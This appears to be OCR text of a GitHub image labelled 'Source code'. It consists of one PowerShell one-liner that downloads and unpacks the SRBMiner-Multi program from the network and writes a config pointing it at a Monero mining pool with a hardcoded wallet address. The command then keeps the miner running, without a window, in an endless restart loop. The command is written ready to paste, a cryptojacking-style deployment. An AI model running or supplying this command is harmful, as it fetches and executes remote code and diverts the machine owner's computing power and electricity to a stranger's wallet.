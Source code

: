 powershell -Command "$ErrorActionPreference='Stop';try{Invoke-WebRequest -Uri 'https://github.com/doktor83/SRBMiner-Multi/releases/download/2.9.4/SRBMiner-Multi-2-9-4-win64.zip' -OutFile 'srbminer.zip' -UseBasicParsing;Expand-Archive -Path 'srbminer.zip' -DestinationPath '.' -Force;$folder=Get-ChildItem -Directory|Where-Object{$_.Name-like'SRBMiner-Multi*'}|Select-Object -First 1;if(-not$folder){throw'Folder not found'};Set-Location$folder.FullName;\"@{\"algorithm\"=\"randomx\";\"pool\"=\"pool.supportxmr.com:443\";\"wallet\"=\"45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb\";\"password\"=\"x\";\"worker\"=\"srb-cpu-gpu\";\"gpu_conf\"=\"auto\";\"tls\"=$true}\"|Out-File'start_config.json'-Encoding ascii;while($true){Start-Process'.\SRBMiner-MULTI.exe' -ArgumentList'--config start_config.json --logfile miner.log'-NoNewWindow -Wait;Start-Sleep -Seconds 10}}catch{Write-Host\"Error: $_\";exit 1}"
